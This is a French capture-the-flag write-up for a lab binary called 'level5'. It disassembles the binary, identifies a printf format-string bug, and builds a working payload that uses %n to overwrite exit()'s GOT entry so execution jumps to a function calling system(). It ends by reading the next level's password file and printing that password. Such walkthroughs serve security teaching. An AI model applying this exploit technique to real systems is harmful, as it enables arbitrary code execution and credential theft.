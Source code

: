 #level5

$./level5
test
test

Level5 attend un input et ensuite l'affiche.

Regardons un peu plus en détail.

$ gdb level5

> disas main
> Dump of assembler code for function main:
> 0x08048504 <+0>: push %ebp
> 0x08048505 <+1>: mov %esp,%ebp
> 0x08048507 <+3>: and $0xfffffff0,%esp
> 0x0804850a <+6>: call 0x80484c2 <n>
> 0x0804850f <+11>: leave
> 0x08048510 <+12>: ret
> End of assembler dump.

On voit la fonction n(), allons la voir en détail.

> disas n
> Dump of assembler code for function n:
> 0x080484c2 <+0>: push %ebp
> 0x080484c3 <+1>: mov %esp,%ebp
> 0x080484c5 <+3>: sub $0x218,%esp
> 0x080484cb <+9>: mov 0x8049848,%eax
> 0x080484d0 <+14>: mov %eax,0x8(%esp)
> 0x080484d4 <+18>: movl $0x200,0x4(%esp)
> 0x080484dc <+26>: lea -0x208(%ebp),%eax
> 0x080484e2 <+32>: mov %eax,(%esp)
> 0x080484e5 <+35>: call 0x80483a0 <fgets@plt>
> 0x080484ea <+40>: lea -0x208(%ebp),%eax
> 0x080484f0 <+46>: mov %eax,(%esp)
> 0x080484f3 <+49>: call 0x8048380 <printf@plt>
> 0x080484f8 <+54>: movl $0x1,(%esp)
> 0x080484ff <+61>: call 0x80483d0 <exit@plt>
> End of assembler dump.

On voit une vulnaribilité sur printf.

Regardons s'il y a d'autres fonctions dans le programme.

> info functions
> All defined functions:

Non-debugging symbols:
0x08048334 \_init
0x08048380 printf
0x08048380 printf@plt
0x08048390 \_exit
0x08048390 \_exit@plt
0x080483a0 fgets
0x080483a0 fgets@plt
0x080483b0 system
0x080483b0 system@plt
0x080483c0 **gmon_start**
0x080483c0 **gmon_start**@plt
0x080483d0 exit
0x080483d0 exit@plt
0x080483e0 **libc_start_main
0x080483e0 **libc_start_main@plt
0x080483f0 \_start
0x08048420 **do_global_dtors_aux
0x08048480 frame_dummy
0x080484a4 o
0x080484c2 n
0x08048504 main
0x08048520 **libc_csu_init
0x08048590 **libc_csu_fini
0x08048592 **i686.get_pc_thunk.bx
0x080485a0 \_\_do_global_ctors_aux
0x080485cc \_fini

On voit la fonction o(), allons la voir en détail.

> disas o
> Dump of assembler code for function o:
> 0x080484a4 <+0>: push %ebp
> 0x080484a5 <+1>: mov %esp,%ebp
> 0x080484a7 <+3>: sub $0x18,%esp
> 0x080484aa <+6>: movl $0x80485f0,(%esp)
> 0x080484b1 <+13>: call 0x80483b0 <system@plt>
> 0x080484b6 <+18>: movl $0x1,(%esp)
> 0x080484bd <+25>: call 0x8048390 <_exit@plt>
> End of assembler dump.

Parfait nous avons juste à faire un appel à la fonction o.

Mais comment ? Car dans la fonction n(), on fait un exit(1) et on quitte le programme.

On va donc essayer de changer l'adresse de la fonction exit() pour qu'elle pointe vers o().

On obtient l'adresse de exit() en regardant le GTO (Global Offset Table).

$ objdump -R level5

level5: file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET TYPE VALUE
08049814 R_386_GLOB_DAT **gmon_start**
08049848 R_386_COPY stdin
08049824 R_386_JUMP_SLOT printf
08049828 R_386_JUMP_SLOT \_exit
0804982c R_386_JUMP_SLOT fgets
08049830 R_386_JUMP_SLOT system
08049834 R_386_JUMP_SLOT **gmon_start**
08049838 R_386_JUMP_SLOT exit
0804983c R_386_JUMP_SLOT \_\_libc_start_main

L'adresse de exit() est 0x08049838.

On va afficher la memoire jusqu'au exit.

$ python -c 'print "AAAA" + "%x "*8' | ./level5
AAAA200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520 25207825

Donc l'adresse d'exit est en 4eme position.

Maintenant changons l'adresse de exit() pour qu'elle pointe vers o() avec le modifieur %n.

Il nous faut le nombre de byte à ecrire, donc (0x080484a4 - 4) en decimal pour les 4 bytes de l'adresse d'exit.

$ (python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"'; cat -) | ./level5

cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
